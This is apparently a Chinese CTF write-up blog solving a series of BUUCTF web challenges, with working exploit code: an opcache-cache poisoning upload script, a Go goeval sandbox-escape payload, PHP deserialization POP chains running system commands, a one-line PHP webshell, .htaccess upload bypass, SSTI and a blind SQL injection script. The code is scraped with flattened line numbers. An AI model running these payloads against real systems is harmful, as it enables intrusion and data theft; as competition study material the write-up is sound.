[!IMPORTANT]
做题记录如下
buu1 -> buu2
WEB [DASCTF X 0psu3十一月挑战赛｜越艰巨·越狂热]single_php* 根据提示，可以传LuckyE变量，它的值可以试试show_source

看似是反序列化，但咱无法getshell，因为就算能够成功也只是执行函数
根据提示，进入siranai.php
发现是一个文件上传

由于有对$_SERVER['REMOTE_ADDR']的检测，所以直接抓包伪造绕过不太现实，只能考虑SSRF
分析后面代码，发现可以上传压缩包并且可以解压，但是它是放置在tmp目录下的临时文件，因此文件名注入命令行不通
可以考虑OPCACHE缓存文件来进行RCE（我并不会，因为听都没听过😭）
啥是OPCACHE呢😕 它是一个PHP扩展，通过保存预编译的脚本字节码到共享内存中来提高PHP的执行效率，减少了每次加载和编译PHP脚本的开销
先进入到phpinfo()看看opcache_file_cache_only有没有开
反序列化脚本如下：
1 2 3 4 5 6 7 8 9 <?php class siroha public $koi = array ("zhanjiangdiyishenqing" =>"phpinfo" ); } $a = new siroha ();echo serialize ($a );?>
结果为O:6:"siroha":1:{s:3:"koi";a:1:{s:21:"zhanjiangdiyishenqing";s:7:"phpinfo";}}

相关设置是开着的，可以直接上手
如何拉一个配置大致相同的镜像 这里我们插入一段小插曲，因为这里对后面的解题很重要
官方的镜像在这里 ，找到8.2.10就行（如果找不到可以问问gpt8.2.10镜像的名字是啥，不过一般都是php:版本号-cli）
dockerfile如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 FROM php:8.2 .10 -cliRUN docker-php-ext-install opcache RUN { \ echo 'opcache.memory_consumption=128' ; \ echo 'opcache.interned_strings_buffer=8' ; \ echo 'opcache.max_accelerated_files=4000' ; \ echo 'opcache.revalidate_freq=2' ; \ echo 'opcache.fast_shutdown=1' ; \ echo 'opcache.enable_cli=1' ; \ } > /usr/local/etc/php/conf.d/opcache-recommended.ini RUN mkdir -p /var/www/cache/opcache && chown -R www-data:www-data /var/www/cache/opcache COPY opcache.ini $PHP_INI_DIR /conf.d/ WORKDIR /var/www/html COPY . /var/www/html CMD [ "php" , "-S" , "0.0.0.0:8000" ]
opcache.ini文件如下
1 2 3 4 opcache.enable=1 opcache.file_cache_only=1 # 指定缓存目录 opcache.file_cache=/var/www/cache/opcache
同目录下可以写一个内容为<? phpinfo();?>的index.php，这样可以方便查看需要的功能有没有打开之类的
[!WARNING]
打开opcache后必须要指定缓存目录，否则容器会启动失败
做完这些后直接跑docker，看看能否正常运行

ok，可以进入容器内部寻找我们需要的东西了

这里index.php.bin文件是index.php的编译缓存，作用前面说过，不多赘述
我们先看看题目上的时间戳是多少

然后转换为十六进制，把文件拖入010改一下

怎么计算systemid 先说说为什么要计算systemid
[!CAUTION]
计算 System ID 通常是为了确保攻击者生成的恶意 Opcache 缓存文件与目标系统的 Opcache 配置兼容。每个系统的 Opcache 配置可能不同，包括文件路径、权限等，而 System ID 可能被用作确保缓存文件与特定系统设置相匹配的一种方式。
根据其他博客和官方wp，大致可以得出systemid有以下几部分
PHP Version
Zend Extension ID
Zend Bin ID
php的官方源码中也有，可以去看看zend_system_id.c
1 2 3 4 5 6 7 8 9 10 11 12 13 14 void zend_startup_system_id (void ) { PHP_MD5Init(&context); PHP_MD5Update(&context, PHP_VERSION, sizeof (PHP_VERSION)-1 ); PHP_MD5Update(&context, ZEND_EXTENSION_BUILD_ID, sizeof (ZEND_EXTENSION_BUILD_ID)-1 ); PHP_MD5Update(&context, ZEND_BIN_ID, sizeof (ZEND_BIN_ID)-1 ); if (strstr (PHP_VERSION, "-dev" ) != 0 ) { PHP_MD5Update(&context, __DATE__, sizeof (__DATE__)-1 ); PHP_MD5Update(&context, __TIME__, sizeof (__TIME__)-1 ); } zend_system_id[0 ] = '\0' ; }
由题目可知
PHP Version = 8.2.10，Zend Extension ID = API420220829,NTS，Zend Bin ID = BIN_48888
实际上可以用一个工具，php7-opcache-override-master

得出systemid后，就可以生成一个tar压缩包了
在题目的phpinfo()我们可以看到系统指定的缓存目录为/tmp，这里就用python来SSRF了
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 import binasciiimport hashlibimport requestsimport reimport tarfileimport subprocessimport ossys_id = '00c2d2752120e3de9b90bf0eb5fcfcb9' def tar_file (): tar_filename = 'exp.tar' with tarfile.open (tar_filename,'w' ) as tar: directory_info = tarfile.TarInfo(name=f'{sys_id} /var/www/html' ) directory_info.type = tarfile.DIRTYPE directory_info.mode = 0o777 tar.addfile(directory_info) tar.add('index.php.bin' , arcname=f'{sys_id} /var/www/html/index.php.bin' ) tar_file() url = 'http://b6361428-f413-4d94-b4d3-0d5932e326ca.node5.buuoj.cn:81/?LuckyE=show_source' def upload (): file = {"file" :("exp.tar" ,open ("exp.tar" ,"rb" ).read(),"application/x-tar" )} res = requests.post(url=url,files=file) print (res.request.headers) return res.request request_content = upload() upload_body = str (request_content.body).replace("\"" ,"\\\"" ) content_length = request_content.headers['Content-Length' ] print (content_length)print (upload_body)

然后把报文的body部分复制到SoapClient里面进行报文伪造
不过后面复现失败了，暂时找不到原因，先放着（伪造的脚本可以去看看官方文档 ）
[VNCTF2023]电子木鱼
[!NOTE]
这道题考的是rust整数溢出，当rust某一个数值超过它所规定的范围后，如果是在release模式下运行，程序就不会报错，而是以环绕的形式展现出结果。例如u8是指无符号数八位，范围为[0,255]，如果一个数为255，后面再加1输出，那么这个时候程序返回的就是0，就是从终到始。相应的，如果是0减1，那么返回的就是255，就是从始到终。
题目给了一个压缩包，我们重点看main.rs
拿到flag的条代码是
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 #[get("/")] async fn index(tera: web::Data<Tera>) -> Result<HttpResponse, Error> { let mut context = Context::new(); context.insert("gongde", &GONGDE.get()); if GONGDE.get() > 1_000_000_000 { context.insert( "flag", &std::env::var("FLAG").unwrap_or_else(|_| "flag{test_flag}".to_string()), ); } match tera.render("index.html", &context) { Ok(body) => Ok(HttpResponse::Ok().body(body)), Err(err) => Err(error::ErrorInternalServerError(err)), } }
我们需要功德大于1000000000才能拿到flag
观察/upgrade路由
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 #[post("/upgrade")] async fn upgrade(body: web::Form<Info>) -> Json<APIResult> { if GONGDE.get() < 0 { return web::Json(APIResult { success: false, message: "功德都搞成负数了，佛祖对你很失望", }); } if body.quantity <= 0 { return web::Json(APIResult { success: false, message: "佛祖面前都敢作弊，真不怕遭报应啊", }); } if let Some(payload) = PAYLOADS.iter().find(|u| u.name == body.name) { let mut cost = payload.cost; if payload.name == "Donate" || payload.name == "Cost" { cost *= body.quantity; } if GONGDE.get() < cost as i32 { return web::Json(APIResult { success: false, message: "功德不足", }); } if cost != 0 { GONGDE.set(GONGDE.get() - cost as i32); } if payload.name == "Cost" { return web::Json(APIResult { success: true, message: "小扣一手功德", }); } else if payload.name == "CCCCCost" { return web::Json(APIResult { success: true, message: "功德都快扣没了，怎么睡得着的", }); } else if payload.name == "Loan" { return web::Json(APIResult { success: true, message: "我向佛祖许愿，佛祖借我功德，快说谢谢佛祖", }); } else if payload.name == "Donate" { return web::Json(APIResult { success: true, message: "好人有好报", }); } else if payload.name == "Sleep" { return web::Json(APIResult { success: true, message: "这是什么？床，睡一下", }); } } web::Json(APIResult { success: false, message: "禁止开摆", }) }
这里发现当你要“Donate”或“Cost”时，cost的值会乘上你发送的quantity
在PAYLOADS中，有关cost的值如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 const PAYLOADS: &[Payload] = &[ Payload { name: "Cost", cost: 10, }, Payload { name: "Loan", cost: -1_000, }, Payload { name: "CCCCCost", cost: 500, }, Payload { name: "Donate", cost: 1, }, Payload { name: "Sleep", cost: 0, }, ];
根据这些信息，可以利用先求功德，后减功德来达到整数溢出的目的，这里cost已经表明范围了，是有符号的32位数
即-2147483648~2147483647
根据前面说的，只要我们功德扣的够多，就能够达到整数溢出，不然就会报功德不足

然后扣（注意这里quantity并不是无限大，它也是需要在i32范围内的）

得出来的这个数就是（1000-quantity*10）。这里10是指name=Cost时cost的值，payload里面有的，quantity就是你传的数了
成功造成整数溢出
[VNCTF2023]BabyGo 给了一个文件，只有main.go值得分析
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 package mainimport ( "encoding/gob" "fmt" "github.com/PaulXu-cn/goeval" "github.com/duke-git/lancet/cryptor" "github.com/duke-git/lancet/fileutil" "github.com/duke-git/lancet/random" "github.com/gin-contrib/sessions" "github.com/gin-contrib/sessions/cookie" "github.com/gin-gonic/gin" "net/http" "os" "path/filepath" "strings" ) type User struct { Name string Path string Power string } func main () r := gin.Default() store := cookie.NewStore(random.RandBytes(16 )) r.Use(sessions.Sessions("session" , store)) r.LoadHTMLGlob("template/*" ) r.GET("/" , func (c *gin.Context) userDir := "/tmp/" + cryptor.Md5String(c.ClientIP()+"VNCTF2023GoGoGo~" ) + "/" session := sessions.Default(c) session.Set("shallow" , userDir) session.Save() fileutil.CreateDir(userDir) gobFile, _ := os.Create(userDir + "user.gob" ) user := User{Name: "ctfer" , Path: userDir, Power: "low" } encoder := gob.NewEncoder(gobFile) encoder.Encode(user) if fileutil.IsExist(userDir) && fileutil.IsExist(userDir+"user.gob" ) { c.HTML(200 , "index.html" , gin.H{"message" : "Your path: " + userDir}) return } c.HTML(500 , "index.html" , gin.H{"message" : "failed to make user dir" }) }) r.GET("/upload" , func (c *gin.Context) c.HTML(200 , "upload.html" , gin.H{"message" : "upload me!" }) }) r.POST("/upload" , func (c *gin.Context) session := sessions.Default(c) if session.Get("shallow" ) == nil { c.Redirect(http.StatusFound, "/" ) } userUploadDir := session.Get("shallow" ).(string ) + "uploads/" fileutil.CreateDir(userUploadDir) file, err := c.FormFile("file" ) if err != nil { c.HTML(500 , "upload.html" , gin.H{"message" : "no file upload" }) return } ext := file.Filename[strings.LastIndex(file.Filename, "." ):] if ext == ".gob" || ext == ".go" { c.HTML(500 , "upload.html" , gin.H{"message" : "Hacker!" }) return } filename := userUploadDir + file.Filename if fileutil.IsExist(filename) { fileutil.RemoveFile(filename) } err = c.SaveUploadedFile(file, filename) if err != nil { c.HTML(500 , "upload.html" , gin.H{"message" : "failed to save file" }) return } c.HTML(200 , "upload.html" , gin.H{"message" : "file saved to " + filename}) }) r.GET("/unzip" , func (c *gin.Context) session := sessions.Default(c) if session.Get("shallow" ) == nil { c.Redirect(http.StatusFound, "/" ) } userUploadDir := session.Get("shallow" ).(string ) + "uploads/" files, _ := fileutil.ListFileNames(userUploadDir) destPath := filepath.Clean(userUploadDir + c.Query("path" )) for _, file := range files { if fileutil.MiMeType(userUploadDir+file) == "application/zip" { err := fileutil.UnZip(userUploadDir+file, destPath) if err != nil { c.HTML(200 , "zip.html" , gin.H{"message" : "failed to unzip file" }) return } fileutil.RemoveFile(userUploadDir + file) } } c.HTML(200 , "zip.html" , gin.H{"message" : "success unzip" }) }) r.GET("/backdoor" , func (c *gin.Context) session := sessions.Default(c) if session.Get("shallow" ) == nil { c.Redirect(http.StatusFound, "/" ) } userDir := session.Get("shallow" ).(string ) if fileutil.IsExist(userDir + "user.gob" ) { file, _ := os.Open(userDir + "user.gob" ) decoder := gob.NewDecoder(file) var ctfer User decoder.Decode(&ctfer) if ctfer.Power == "admin" { eval, err := goeval.Eval("" , "fmt.Println(\"Good\")" , c.DefaultQuery("pkg" , "fmt" )) if err != nil { fmt.Println(err) } c.HTML(200 , "backdoor.html" , gin.H{"message" : string (eval)}) return } else { c.HTML(200 , "backdoor.html" , gin.H{"message" : "low power" }) return } } else { c.HTML(500 , "backdoor.html" , gin.H{"message" : "no such user gob" }) return } }) r.Run(":80" ) }
分析重点在/upload，/unzip和/backdoor。由于上传文件的类型中不能有.go和.gob，加上有个解压功能，因此可以考虑将恶意代码写入一个go文件后进行压缩，然后再解压到任意路径下，最后获得backdoor的权限实现getshell
[!IMPORTANT]
（path可控是因为c.Query(“path”)相当于$_GET[“path”]）
backdoor的权限获取 分析/backdoor，发现需要user.gob来进行提权，那就可以考虑能不能覆盖。
注意到/upload中会删除之前存在的同名文件，然后上传新文件，可以利用这点进行覆盖
大致思路清楚了，我们直接上手
怎么生成文件的代码已经给我们了，直接照搬照抄就行
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 package mainimport ( "encoding/gob" "os" ) type User struct { Name string Path string Power string } func main () gobfile, _ := os.Create("user.gob" ) user := User{Name: "ctfer" , Path: "/tmp/c641fceaxxxxxx/" , Power: "admin" } encoder := gob.NewEncoder(gobfile) encoder.Encode(user) }
得到user.gob
压缩后上传并进行解压

去/backdoor看看有没有覆盖成功

成功覆盖
go沙盒逃逸 这里先不具体说，目前只需要知道这题目的漏洞点在eval, err := goeval.Eval("", "fmt.Println(\"Good\")", c.DefaultQuery("pkg", "fmt"))就可以了。
在go中，系统执行的第一个函数一般是main()，但是init()是个例外，它能在main()之前调用
根据这个，我们就可以写脚本了
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 package mainimport ( "fmt" "os/exec" ) func init () cmd := exec.Command("/bin/sh" , "-c" , "cat /f*" ) res, err := cmd.CombinedOutput() fmt.Println(err) fmt.Println(string (res)) } const ( Message = "fmt" )
但是我们需要的是import (后面的一部分，goeval的源码在这里 ，可以想想为什么
[!NOTE]
实际上在源码的func main()中，传入的包是以依次拼接的形式构成的，而在开始时importStr就已经被定义成了import (了，传入的数据会依次拼接在它后面。所以我们只需要注意怎么闭合符号即可
提一句，最后一部分加const也是为了闭合后面的")，然后将其稍微修改一下
1 os/exec"%0A"fmt")%0Afunc%09init()%7B%0Acmd:=exec.Command("/bin/sh","-c","cat${IFS}/f*")%0Ares,err:=cmd.CombinedOutput()%0Afmt.Println(err)%0Afmt.Println(res)%0A}%0Aconst(%0AMessage="fmt

python脚本将ascii码转换为chr即可
[VNCTF2023]象棋王子 签到难度的jsfuck，找到对应代码后放到控制台print就行

[DASCTF X GFCTF 2022十月挑战赛！]EasyPOP 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 <?php highlight_file (__FILE__ );error_reporting (0 );class fine private $cmd ; private $content ; public function __construct ($cmd , $content { $this ->cmd = $cmd ; $this ->content = $content ; } public function __invoke ( { call_user_func ($this ->cmd, $this ->content); } public function __wakeup ( { $this ->cmd = "" ; die ("Go listen to Jay Chou's secret-code! Really nice" ); } } class show public $ctf ; public $time = "Two and a half years" ; public function __construct ($ctf { $this ->ctf = $ctf ; } public function __toString ( { return $this ->ctf->show (); } public function show (string { return $this ->ctf . ": Duration of practice: " . $this ->time; } } class sorry private $name ; private $password ; public $hint = "hint is depend on you" ; public $key ; public function __construct ($name , $password { $this ->name = $name ; $this ->password = $password ; } public function __sleep ( { $this ->hint = new secret_code (); } public function __get ($name { $name = $this ->key; $name (); } public function __destruct ( { if ($this ->password == $this ->name) { echo $this ->hint; } else if ($this ->name = "jay" ) { secret_code::secret (); } else { echo "This is our code" ; } } public function getPassword ( { return $this ->password; } public function setPassword ($password void { $this ->password = $password ; } } class secret_code protected $code ; public static function secret ( { include_once "hint.php" ; hint (); } public function __call ($name , $arguments { $num = $name ; $this ->$num (); } private function show ( { return $this ->code->secret; } } if (isset ($_GET ['pop' ])) { $a = unserialize ($_GET ['pop' ]); $a ->setPassword (md5 (mt_rand ())); } else { $a = new show ("Ctfer" ); echo $a ->show (); }
这里我顺着分析吧，感觉倒着分析比倒着分析要简单
[!NOTE]
__invoke()触发条件是：当尝试以调用函数的方式调用其所在的对象时
__get()触发条件是：当读取一个对象中不可访问或者不存在的属性时
__call()触发条件是：当调用一个对象不存在的属性或者不可访问的方法时
__wakeup()触发条件是：当所在的对象要被反序列化时
__sleep()触发条件是：当所在的对象要被序列化时
首先，sorry类有__destruct()，入口在这里
由于题目事先设置了一个随机密码，可以用取地址&绕过
1 2 $a ->setPassword (md5 (mt_rand ()));
然后hint是echo出来的，恰好show类中有__toString()，就顺着它走了
1 2 3 4 5 public function __toString ( { return $this ->ctf->show (); }
调用了show()，secret_code类有这个函数
1 2 3 4 5 6 7 8 9 10 11 public function __call ($name , $arguments { $num = $name ; $this ->$num (); } private function show ( { return $this ->code->secret; }
其实show类也有这个函数，只不过他没啥用撒:happy:
但是其他类中没有secret这个变量，有也只是function，猜测这个时候就是要用到__get()了，于是调到sorry类
1 2 3 4 5 6 public function __get ($name { $name = $this ->key; $name (); }
这里把$name当成函数调用了，那就是__invoke()了，跳转到fine类
1 2 3 4 5 6 7 8 9 10 11 public function __invoke ( { call_user_func ($this ->cmd, $this ->content); } public function __wakeup ( { $this ->cmd = "" ; die ("Go listen to Jay Chou's secret-code! Really nice" ); }
注意到这里有__wakeup()，所以在序列化之后还要绕过它，改个参数就好了，比如对象个数啥的
pop链如下：
sorry::destruct() -> show::toString()->secret_show::show()->sorry::get()->fine::invoke()
脚本如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 <?php class fine private $cmd ; private $content ; public function __construct ($cmd , $content { $this ->cmd = $cmd ; $this ->content = $content ; } } class secret_code protected $code ; public function __construct ($code { $this ->code = $code ; } } class show public $ctf ; } class sorry private $name ; private $password ; public function __construct ( { $this ->name = &$this ->password; $this ->password = 1 ; } } $a = new sorry ();$b = new secret_code ($a );$c = new show ();$d = new sorry ();$a ->key = new fine ('system' ,'cat /f*' );$c ->ctf = $b ;$d ->hint = $c ;$str = str_replace ("fine\":2" ,"fine\":3" , serialize ($d ));echo urlencode ($str );
[!WARNING]
这里不能直接用序列化后的字符串是因为在php中，属性为protected和private的变量在序列化之后经过url编码时会被加上不可见字符，可以去搜一搜，网上挺多文章的。不过养成习惯，还是最好都用url编码后的字符串交上去
[NewStarCTF 2023 公开赛道]R!C!E! 1 2 3 4 5 6 7 8 9 10 11 12 <?php highlight_file (__FILE__ );if (isset ($_POST ['password' ])&&isset ($_POST ['e_v.a.l' ])){ $password =md5 ($_POST ['password' ]); $code =$_POST ['e_v.a.l' ]; if (substr ($password ,0 ,6 )==="c4d038" ){ if (!preg_match ("/flag|system|pass|cat|ls/i" ,$code )){ eval ($code ); } } }
代码逻辑很简单，非法传参和md5碰撞罢了
MD5这里可以直接爆破
1 2 3 4 5 6 7 8 import hashlibdef decode (str1 ): for i in range (0 ,500000 ): if (hashlib.md5(str (i).encode("UTF-8" )).hexdigest())[0 :6 ] == "c4d038" : print (i) break decode("c4d038" )
爆破出来是114514
非法传参 在php版本小于8时，php处理名字带有.、空格、[、]等符号的变量名时，会将第一个符号转化为下划线_，但是不会改变后续的符号
php版本大于8时，php会将所有符号转化为下划线_
这里我们并不知道php版本，但是根据变量名可以猜测php版本为7.x，因为我们目标的变量名是e_v.a.l，如果php版本大于8，那么在转换的时候会将变量名的符号全部转换为_，这样会导致变量名不一致而导致传参失败
这里在POST时传名字e[.v.a.l

这里的waf相当于一个纸老虎，执行命令tac /f*即可（不确定的可以用find函数）
用find查找flag结果如下：

1 2 3 4 5 6 7 8 /sys/devices/platform/serial8250/tty/ttyS2/flags /sys/devices/platform/serial8250/tty/ttyS0/flags /sys/devices/platform/serial8250/tty/ttyS3/flags /sys/devices/platform/serial8250/tty/ttyS1/flags /sys/devices/virtio-mmio-cmdline/virtio-mmio.3/virtio3/net/eth0/flags /sys/devices/virtual/net/lo/flags /usr/include/linux/flat.h /flag
[NewStarCTF 2023 公开赛道]EasyLogin 打开登录界面，发现并没有注入点，正常注册登录就行

这里出题人做了一个shell，开始时我们进入的是一个聊天程序，你发什么它回你什么
Ctrl+D退出程序
经过搜索发现并没有什么有用的

并且bin中就这几个命令，且根目录只有bin和home
有点一筹莫展了
抓个包看看登录界面
在发包时注意到有一个/passport包

里面似乎有flag，但我们看不到
可能是权限问题？也只能猜猜
之前在注册时发现admin被注册了，试试能不能用弱密码
发现能成功，密码是000000
再重新抓包
302跳转，得到flag

[NewStarCTF 2023 公开赛道]Begin of HTTP 这里就不多说了，http头的有关描述在官方档案 里，放操作

secret看源代码





[NewStarCTF 2023 公开赛道]Begin of Upload 一道朴实无华的文件上传，步骤无非就是：写🐴，抓包，改后缀绕过，访问文件，RCE
这里说一下我为什么传php会成功
可以分析源码

这里这里的检查位于前端，用js写成的，我们用火狐的插件Javascript Switcher直接把js给ban了就行，这样就不会过滤了
[!NOTE]
有的时候，文件上传功能也会用js编写，所以这种工具在使用时要具体情况具体分析
🐴的路径有了，可直接访问

我这里写🐴是<?php eval($_POST['cmd']);?>
[NewStarCTF 2023 公开赛道]Begin of PHP 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 <?php error_reporting (0 );highlight_file (__FILE__ );if (isset ($_GET ['key1' ]) && isset ($_GET ['key2' ])){ echo "=Level 1=<br>" ; if ($_GET ['key1' ] !== $_GET ['key2' ] && md5 ($_GET ['key1' ]) == md5 ($_GET ['key2' ])){ $flag1 = True; }else { die ("nope,this is level 1" ); } } if ($flag1 ){ echo "=Level 2=<br>" ; if (isset ($_POST ['key3' ])){ if (md5 ($_POST ['key3' ]) === sha1 ($_POST ['key3' ])){ $flag2 = True; } }else { die ("nope,this is level 2" ); } } if ($flag2 ){ echo "=Level 3=<br>" ; if (isset ($_GET ['key4' ])){ if (strcmp ($_GET ['key4' ],file_get_contents ("/flag" )) == 0 ){ $flag3 = True; }else { die ("nope,this is level 3" ); } } } if ($flag3 ){ echo "=Level 4=<br>" ; if (isset ($_GET ['key5' ])){ if (!is_numeric ($_GET ['key5' ]) && $_GET ['key5' ] > 2023 ){ $flag4 = True; }else { die ("nope,this is level 4" ); } } } if ($flag4 ){ echo "=Level 5=<br>" ; extract ($_POST ); foreach ($_POST as $var ){ if (preg_match ("/[a-zA-Z0-9]/" ,$var )){ die ("nope,this is level 5" ); } } if ($flag5 ){ echo file_get_contents ("/flag" ); }else { die ("nope,this is level 5" ); } }
参考payload：GET /?key1[]=1&key2[]=2&key4[]=1&key5=2024s、POST key3[]=1&flag5=.
[NewStarCTF 2023 公开赛道]泄漏的秘密 直接找www.zip即可
[NewStarCTF 2023 公开赛道]R!!C!!E!! git信息泄露，用Githack可以得到文件
1 2 3 4 5 6 7 8 9 10 11 <?php highlight_file (__FILE__ );if (';' === preg_replace ('/[^\W]+\((?R)?\)/' , '' , $_GET ['star' ])) { if (!preg_match ('/high|get_defined_vars|scandir|var_dump|read|file|php|curent|end/i' ,$_GET ['star' ])){ eval ($_GET ['star' ]); } }
综上，这是一道无参RCE，我们只需要引用函数并理解如何嵌套函数即可
由于scandir、var_dump、get_defined_vars被过滤，且函数处理不了参数，这时候可以考虑getallheaders()
传入?star=eval(next(getallheaders()));，这里是先获取HTTP请求头的信息，然后用next()调用下一个元素（指请求头中的某个元素），把这个元素当做参数传给eval()执行（这里eval是能处理参数的，因为它匹配的是[^\W]，而next(getallheaders())匹配的是(?R)?，不能处理参数，只能调用函数）

发现目标是修改UA（User-Agent），然后命令执行即可
[NewStarCTF 2023 公开赛道]Upload again! 过滤了php后缀的文件，同时还对文件内容作检查，用< script language=“php” >绕过

这里我们不能直接访问1.jpg来getshell，需要用.htaccess文件，该文件可以实现的功能包括但不限于：用户自动重定向、自定义错误页面、改变你的文件扩展名等等。
1 2 SetHandler application/x-httpd-php
上传后访问1.jpg即可getshell

[NewStarCTF 2023 公开赛道]Unserialize？ 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 <?php highlight_file (__FILE__ );class evil private $cmd ; public function __destruct ( { if (!preg_match ("/cat|tac|more|tail|base/i" , $this ->cmd)){ @system ($this ->cmd); } } } @unserialize ($_POST ['unser' ]); ?>
简单的反序列化，注意上传的时候要URL编码
1 2 3 4 5 6 7 8 <?php class evil private $cmd = 'nl /*' ; } $a = new evil ();echo (urlencode (serialize ($a )));?>
（还没测试，在写题目的时候平台正在维护，于是就跑步去了）
（平台有点问题，我还以为写错了，把wp搬上去之后发现也没有回显）
[NewStarCTF 2023 公开赛道]include 0。0 文件包含有多种方法，这里就说最常见的一个：伪协议base64编码直接读取
源码过滤了base，用url双编码绕过：?file=php://filter/read=convert.bas%256564-encode/resource=flag.php（把e编码两次）
[NewStarCTF 2023 公开赛道]游戏高手 在控制台内将gameScore改为100000以上的数字就行（gameScore可以在调试器内看）

[NewStarCTF 2023 公开赛道]GenShin 抓包发现响应头有文件

根据提示传一个name进去

也许是ssti，看看有没有

被过滤了，应该是存在ssti的。
测试发现%没有被过滤，可以用{%print%}输出

看看子类有什么可以用的

由于init被过滤掉了，考虑用attr绕过


找到popen之后就可以操作了

[!NOTE]
这题我没有检测出来空格是否被过滤掉，因为cat /flag中间有空格会报400，不知是什么原因。
对了，popen也被过滤掉了
[NewStarCTF 2023 公开赛道]R!!!C!!!E!!! 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 <?php highlight_file (__FILE__ );class minipop public $code ; public $qwejaskdjnlka ; public function __toString ( { if (!preg_match ('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|tee|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i' , $this ->code)){ exec ($this ->code); } return "alright" ; } public function __destruct ( { echo $this ->qwejaskdjnlka; } } if (isset ($_POST ['payload' ])){ unserialize ($_POST ['payload' ]); }
[!NOTE]
exec函数在浏览器中是没有反应的，所以只能靠写文件的方式把命令的运行结果表示出来
脚本如下：
1 2 3 4 5 6 7 8 9 10 <?php class minipop public $code = "ls /|te''e /var/www/html/2.txt" ; public $qwejaskdjnlka ; } $a = new minipop ();$a ->qwejaskdjnlka = $a ;echo (serialize ($a ));?>
[NewStarCTF 2023 公开赛道]medium_sql 过滤的部分可以考虑大小写绕过
由于在考虑联合注入的时候提示说不能用union，那多半是盲注了

测试一下布尔盲注


确认出是布尔盲注，可以写脚本了
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 import requestsurl = 'http://b1e9c46d-af66-4936-a026-9b3a1a236c3c.node5.buuoj.cn:81/?id=TMP11503\' And ' def check (res ): if 'compulsory' in res.text: return True return False def checklength (): for i in range (1 ,20 ): payload = 'if((length(database())={}),1,0)--+' .format (i) str2 = url + payload res = requests.get(url=str2) if check(res): print ('Database\'s length is :' , i) break def checkdataname (): databasename = '' for i in range (1 ,10 ): left = 32 right = 127 mid = (left + right) // 2 while left < right: payload = 'if((asCii(suBstr(database(),{},1)))>{},1,0)--+' .format (i,mid) str3 = url + payload res = requests.get(url=str3) if check(res): left = mid + 1 else : right = mid mid = (left + right) >> 1 databasename += chr (mid) print (databasename) def checktable (): tablename = '' for i in range (1 ,60 ): left = 32 right = 127 mid = (left + right) >> 1 while (left<right): payload = 'if((asCii(Substr((selEct groUp_Concat(tabLe_nAme) frOm infOrMation_schEma.taBles whEre tabLe_Schema = database()),{},1)))>{},1,0)--+' .format (i,mid) str4 = url + payload res = requests.get(url=str4) if check(res): left = mid + 1 else : right = mid mid = (left + right) >> 1 tablename += chr (mid) print (tablename) def checkcolumn (): columnname = '' for i in range (1 ,80 ): left = 32 right = 127 mid = (left + right) >> 1 while (left<right): payload = 'if((asCii(Substr((selEct groUp_Concat(column_nAme) frOm infOrMation_schEma.columns whEre tabLe_name = \'here_is_flag\'),{},1)))>{},1,0)--+' .format (i,mid) str5 = url + payload res = requests.get(url=str5) if check(res): left = mid + 1 else : right = mid mid = (left + right) >> 1 columnname += chr (mid) print (columnname) def checkflag (): flag = '' for i in range (1 ,80 ): left = 32 right = 127 mid = (left + right) >> 1 while (left<right): payload = 'if((asCii(Substr((selEct flag from here_is_flag),{},1)))>{},1,0)--+' .format (i,mid) str6 = url + payload res = requests.get(url=str6) if check(res): left = mid + 1 else : right = mid mid = (left + right) >> 1 flag += chr (mid) print (flag)